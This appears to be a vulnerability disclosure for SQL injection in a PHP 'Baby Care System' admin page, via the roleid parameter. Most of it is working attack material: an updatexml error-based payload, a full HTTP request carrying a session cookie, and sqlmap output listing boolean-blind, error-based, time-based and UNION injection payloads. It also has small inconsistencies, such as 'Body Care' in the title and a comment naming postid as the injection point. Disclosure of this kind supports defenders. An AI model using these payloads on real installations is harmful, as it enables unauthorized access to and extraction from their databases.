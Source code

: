 ## Body Care System has SQL injection vulnerability

vendor: https://www.sourcecodester.com/php/14622/baby-care-system-phpmysqli-full-source-code.html

Vulnerability file: /BabyCare/admin/pagerole.php&action=edit&roleid=

![image](https://user-images.githubusercontent.com/54017627/161354417-66bda321-25ca-4aca-91bc-d90c9c074a33.png)

Vulnerability location: /BabyCare/admin.php?id=pagerole&action=edit&roleid= //postid is Injection point

[+]Payload:  /BabyCare/admin.php?id=pagerole&action=edit&roleid=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ //roleid is Injection point

```sql
GET /BabyCare/admin.php?id=pagerole&action=edit&roleid=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ HTTP/1.1
Host: 192.168.1.19
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=h48mjnelp4g0935821l2k3g5ne
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/161354255-69005e1b-1e0d-4860-b762-0669950e640b.png)

```sql
---
Parameter: roleid (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=pagerole&action=edit&roleid=1' AND 3500=3500 AND 'WSTQ'='WSTQ

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=pagerole&action=edit&roleid=1' AND (SELECT 1894 FROM(SELECT COUNT(*),CONCAT(0x71766a6a71,(SELECT (ELT(1894=1894,1))),0x71717a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'RNhF'='RNhF

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=pagerole&action=edit&roleid=1' AND (SELECT 1574 FROM (SELECT(SLEEP(5)))ajLi) AND 'Muhu'='Muhu

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=pagerole&action=edit&roleid=-1597' UNION ALL SELECT NULL,CONCAT(0x71766a6a71,0x43596647727573766d505568646d54524c656f76624861765845474c474579724872425466624363,0x71717a7671),NULL,NULL-- -
---
```

![image](https://user-images.githubusercontent.com/54017627/161354345-4cf03726-ebc8-489e-ab6c-3fc1ebfd5018.png)
